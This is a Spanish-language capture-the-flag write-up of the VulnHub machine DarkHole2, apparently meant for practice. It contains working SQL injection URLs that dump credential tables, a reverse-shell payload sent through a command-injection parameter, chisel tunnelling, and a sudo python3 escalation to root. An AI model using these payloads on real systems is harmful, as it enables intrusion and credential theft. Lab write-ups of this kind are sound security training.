# Darkhole2

## Información General

<h3>Dificultad:  </h3>

<h3> Sistema operativo: Linux</h3>

<h3> Vulnerabilidad explotada: Exposed Git repository, Credential leakage in repository, SQLI, Insecure network exposure, pivoting, Sensitive data exposure via shell history, Credential reuse</h3>

<h3> Fecha de resolución: 10/10/2025 </h3>

<h3>Enlace de la mv: <a href="https://www.vulnhub.com/entry/darkhole-2,740">DarkHole2</a></h3>

### *Leer el documentro en Ingles* <a href="darkhole2_ingles.md">DarkHole2</a>

## Reconocimiento

Como estamos trabajando en la plataforma **VulnHub** para encontrar la ip de la máquina tendremos que hacer lo siguiente:

1.- Todo la intrusión que vamos a realizar tanto de la máquina atacante como victima tiene que estar en **VMware**

2.- La configuración de nuestra kali, tiene que tener lo siguiente:

En Player - Manage - Virtual Machine Settings - Network Adapter

<p align="center"> 

</p>

3.- En nuestra kali haremos los siguientes comandos: -

Vuln Hub nos proporciona la ip de la máquina objetivo **192.168.88.129**

Voy a establecer en el fichero **/etc/hosts** la **ip de la mv objetivo**, la voy a llamar **darkhole2**

**ARP-SCAN**

Ejecutamos el siguiente comando:

```
sudo arp-scan -I eth0 --localnet
```

<p align="center"> 

</p>

```
macchanger -l | grep -i vmware
```

<p align="center"> 

</p>

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 darkhole2
```

**Su el ttl es 64. Por tanto, es Linux**
### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn darkhole2
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service | Version                                                      |
| --------- | ------- | ------------------------------------------------------------ |
| 80        | http    | Apache httpd 2.4.41 ((Ubuntu))                               |
| 22        | ssh     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |

</div>

**192.168.174.131:80/.git/** --> He descubierto un url que nos lleva a un git

#### Escaneo de puerto UDP

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn darkhole2
```
**Todo los puertos estan cerrados**

A continuación, vamos a intentar detectar alguna vulnerabilidad con nmap con el siguiente comando:

```
nmap --script smb-vuln* -p445 darkhole2 -Pn
```

**El puerto 445 esta cerrado**

## Exploración

### Fuzzing web

```
gobuster dir -u http://darkhole2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

En esta ruta

```
http://darkhole2/.git/logs/HEAD
```

He encontrado el siguiente correo anmar-v7@hotmail.com

Luego, usamos el comando

```
wget -r http://darkhole2/.git/
```

Con esto lo que conseguimos es descargar los contenidos de la carpeta Git

A continuación, usamos los siguientes comandos:

```
git log
```

<p align="center"> 

</p>

Estamos viendo todos los log

```
git show 0f1d821f48a9cf662f285457a5ce9af6b9feb2c4 
```

<p align="center"> 

</p>

He encontrado el siguiente correo

**email** lush@admin.com <br>
**password** 321

## Explotación

Uno de los comandos sqli que usaremos sera los siguientes:

```
http://darkhole2/dashboard.php?id=null' order by 6-- -
```

<p align="center"> 

</p>

Esto lo hago para saber cuantas columnas hay, hay 6 columnas

```
http://darkhole2/dashboard.php?id=id=dani' union select 1,version(),database(),4,5, 6-- -
```

<p align="center"> 

</p>

Aquí estamos observando la version del sistema y el nombre de la bbdd

```
http://darkhole2/dashboard.php?id=id=dani' union select 1,user(),3,4,5, 6-- -
```

<p align="center"> 

</p>

```
http://darkhole2/dashboard.php?id=null' UNION ALL SELECT 1, GROUP_CONCAT(table_name), 3,4,5,6 FROM information_schema.tables WHERE table_schema = 'darkhole_2' -- -
```

<p align="center"> 

</p>

Obtenemos la tabla ssh y users
```
http://darkhole2/dashboard.php?id=null' union select 1,group_concat(column_name, ':'),3,4,5,6 from information_schema.columns where table_name = 'users'-- -
```

A continuación vamos a mostrar las columnas de la tabla users

<p align="center"> 

</p>

A continuación vamos a mostrar las columnas de la tabla ssh

<p align="center"> 

</p>

```
http://darkhole2/dashboard.php?id=null' union select 1,user,pass,4,5, 6 from ssh-- -
```

<p align="center"> 

</p>

Luego en cmd usamos el siguiente comando

```
ssh jehad@192.168.174.131
```

<p align="center"> 

</p>

Primera flag encontrada

<p align="center"> 

</p>

A continuación vamos a mirar el historial de este usuario

```
history
```

<p align="center"> 

</p>

El puerto 9999 por lo visto esta siendo usado, por tanto, vamos a confirmarlo con el siguiente comando

```
netstat -nat
```

<p align="center"> 

</p>

Despues vamos a encontrar información de lo que se está usando en el puerto 9999 con el siguiente comando:

```
ps -faux | grep 9999
```

<p align="center"> 

</p>

Comprobamos que se meten dentro de la carpeta **/opt/web/**

<p align="center"> 

</p>

Dentro encontramos el siguiente archivo que basicamente consiste que hay un incondicional que mediante por metodo get esta poneindo el comando cmd y por tanto, ejecuta un comando a nivel de sistema, Por ejemplo:

```
curl "localhost:9999/?cmd=whoami" -X GET
```

<p align="center"> 

</p>

Nos responde que es el usuario **Losy**

Ahora para establecer conexion con el usuario Losy, usaremos una nueva herramienta llamada **chisel** Basicamente es como tuno privado que no servirá para conectarnos al usuario que se encuentra en el puerto 9001

Nos venimos a esta <a href="https://github.com/jpillora/chisel">página</a>

<p align="center"> 

</p>

Luego selecionamos chisel_1.11.3_linux_amd64.gz 

<p align="center"> 

</p>

```
cp chisel_1.11.3_linux_amd64.gz chinzel.gz
gunzip chinzel.gz
chmod +x chinzel 
file chinzel
```

<p align="center"> 

</p>

Luego compartimos este archivo a nuestra maquina victima con el siguiente comando

```
python3 -m http.server 8000
```

En nuestra maquina victima situado en la carpeta **/tmp** realizamos el siguiente comando:

```
wget 192.168.174.130:8000/chinzel
chmod +x chinzel
```

Luego en nuestra maquina atacante ejecutamos el siguiente comando:

```
./chinzel server --reverse -p 1234
```
Y por ultimo, en la maquina victima ejecutamos este comando:

```
./chinzel client 192.168.174.130:1234 R:9999:127.0.0.1:9999
```

Luego, para comprobar que todo esta bien hecho, realizamos este comando en nuestra maquina atacante:

```
lsof -i:9999
```

<p align="center"> 

</p>

Luego en el navegador ponemos lo siguiente:

```
http://localhost:9999/?cmd=whoami
```
<p align="center"> 

</p>

Luego, hacemos una reverse shell, mediante el siguiente comando, preparando antes el puerto de escucha:

```
nc -lvp 4443
```

Luego en el navegador ponemos:

```
http://localhost:9999/?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.174.130/4443 0>%261"
```

<p align="center"> 

</p>

Somos el usuario losy

### TTY

```
script /dev/null -c bash
```
**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

<p align="center"> 

</p>

### Escalada de Privilegios

```
history
```

<p align="center"> 

</p>

Encontramos que la contraseña es **gang**

```
sudo -l
```

<p align="center"> 

</p>

```
sudo -u root python3
import os
os.system("whoami")
os.system("bash")
whoami
```

<p align="center"> 

</p>

## Conclusión

La máquina **Dark Hole 2** de VulnHub ha sido, en mi opinión, una de las más complejas que he abordado hasta ahora. Durante el proceso encontré una combinación variada de técnicas y herramientas: trabajamos con repositorios Git, repasamos comandos básicos para recuperar un repositorio con el contenido de un usuario y contraseña para hacer login, y volvimos a practicar SQL, una vulnerabilidad que me resulta particularmente desafiante y cuyo repaso me vino muy bien.

Tras conseguir acceso con el usuario **jehad**, inspeccioné el historial de comandos con `history` y descubrí que había un servicio escuchando en el puerto **9999**, que estaba relacionado con otro usuario llamado **losy**. Para alcanzar ese servicio utilicé **chisel**, herramienta que permite crear un túnel privado; gracias a ello pude conectarme al puerto 9999 y, desde allí, ejecutar una reverse shell que me permitió tomar control de la sesión de **losy**.

La escalada de privilegios resultó curiosamente sencilla: consultando de nuevo `history` apareció la contraseña del usuario **losy**, lo que facilitó los pasos siguientes hasta alcanzar **root**. En conjunto, la máquina requirió vigilancia constante del entorno (consultas al historial, servicios abiertos y uso de túneles) y fue una buena práctica para integrar distintas técnicas en una única explotación.
